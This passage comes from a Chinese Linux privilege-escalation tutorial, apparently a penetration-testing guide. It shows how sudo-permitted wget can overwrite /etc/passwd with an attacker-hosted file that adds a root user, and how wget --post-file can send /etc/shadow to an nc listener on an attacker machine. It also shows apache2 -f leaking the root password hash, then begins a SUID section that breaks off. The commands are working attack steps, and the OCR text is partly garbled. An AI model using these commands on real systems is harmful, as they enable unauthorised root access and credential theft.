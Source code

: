 su touhid

## **使用**wget**命令**

这种非常酷的方式要求Web服务器下载文件。这样我从没在任何地方见过。让我们解释一下。

- 首先将Target的/ etc / passwd文件复制到攻击者计算机。
- 修改文件，并在上一步中保存的密码文件中添加用户到攻击者计算机。
- 仅附加此行=> **touhid\****：**$ 6 $ bxwJfzor $ MUhUWO0MUgdkWfPPEydqgZpm.YtPMI / gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0 / 0**：**b**：**root / root**：**
- 将passwd文件托管到使用任何Web服务器的主机。

**在受害者方面。**

sudo wget [http://192.168.56.1:8080/passwd](https://link.zhihu.com/?target=http%3A//192.168.56.1%3A8080/passwd) -O / etc / passwd

现在切换用户密码是：test

su touhid

**注意：如果您要从服务器上转储文件，例如**root**的**ssh**密钥，**shadow**文件等。**

sudo wget —post-file = / etc / shadow 192.168.56.1:8080

攻击者的设置侦听器：nc –lvp 8080

## **使用**apache**命令**

但是，我们无法获得Shell和Cant编辑系统文件。

但是使用它我们可以查看系统文件。

sudo apache2 -f / etc / shadow

输出是这样的：

Syntax error on line 1 of /etc/shadow:Invalid command 'root:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration

可悲的是没有shell。但是我们可以现在提取root哈希，然后在破解了哈希。

## **0x006 linux提权-Suid和Guid配置错误**

**描述**

SUID代表设置的用户ID，是一种Linux功能，允许用户在指定用户的许可下执行文件。例如，Linux ping命令通常需要root权限才能打开网络套接字。通过将ping程序标记为SUID（所有者为root），只要低特权用户执行ping程序，便会以root特权执行ping。

SUID（设置用户ID）是赋予文件的一种权限，它会出现在文件拥有者权限的执行位上，具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。

当运行具有suid权限的二进制文件时，它将以其他用户身份运行，因此具有其他用户特权。它可以是root用户，也可以只是另一个用户。如果在程序中设置了suid，该位可以生成shell或以其他方式滥用，我们可以使用它来提升我们的特权。

**以下是一些可用于产生**SHELL**的程序：**

nmap
